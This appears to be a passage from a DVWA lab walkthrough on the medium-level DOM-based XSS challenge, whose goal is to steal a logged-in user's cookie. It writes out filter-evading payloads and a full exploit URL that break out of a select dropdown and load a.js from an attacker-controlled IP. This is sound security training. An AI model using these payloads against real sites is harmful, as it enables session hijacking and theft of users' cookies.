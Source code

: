 <b>Challenge URL:</b> /dvwa/vulnerabilities/xss_d/
<br>
<b>Objective:</b> Steal the cookie of a logged-in user.
<br>
<b>Tools needed:</b> A temporary web server
<br><br>
<i>Did you remember to read this section's <a href="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/Challenge%2010:%20XSS%20(DOM).md" target="_blank">README</a>?</i>

<h2><b>The Guide</b></h2>

<i>Since this challenge is very similar to the easy mode challenge, I'd highly recommend re-reading <a href="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/Challenge 02: Command Injection.md" target="_blank">our notes from before</a>. We'll be using a lot of the analysis and code from before.</i>

<h3><b>What's Changed</b></h3>

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/screenshots/xssdsource.png" width="500">

Upon reviewing the source code for this challenge, we see that the developer simply checks if the URL now has the string <code>&#60;script</code>. If it does, we set the <b>default</b> parameter to "English" and ignore the input. Seems pretty wise, right? Unfortunately not, as there are <a href="https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet#Tests" target="_blank">many, many other ways</a> to trigger a cross-site scripting vulnerability.

<h3><b>Crafting a New Exploit</b></h3>

So let's grab a XSS exploit that doesn't use the <code>&#60;script</code> tag. Once we find one, let's point it to our <code>a.js</code> payload from before. An easy and convenient one would be something like:

<code>&#60;img src='http://[your_Kali_IP]:9999/a.js'></code> 

Let's start by initializing our temporary Kali web server, then by trying to execute the payload as shown above:

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/screenshots/xssdfail.png" width="500">

Hm, the URL doesn't change, nor do we see a call to our payload on our webserver. What could be the cause? Let's look at how our dropdown is constructed:

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/screenshots/xssdsourceclient.png" width="500">

So it essentially injects whatever we put into the URL into the top row of the dropdown. We can't actually insert an image into a dropdown (<a href="https://stackoverflow.com/questions/4941004/putting-images-with-options-in-a-dropdown-list" target="_blank">source</a>). The next best thing is to modify our payload to break us out of the dropdown completely, so that we can "display" our "image" on the page itself. Let's try something like this:

<code>&#60;/option&#62;&#60;/select&#62;&#60;img src=&#x27;http&#58;//[your_Kali_IP]:9999/a.js&#x27;&#62;</code>

If we put that in our URL, it should work, fingers crossed: 

<b>http&#58;//dvwa/dvwa/vulnerabilities/xss_d/?default=English&#60;/option&#62;&#60;/select&#62;&#60;img src=&#x27;</b>[your_Kali_IP]<b>:9999/a.js&#x27;&#62;</b>
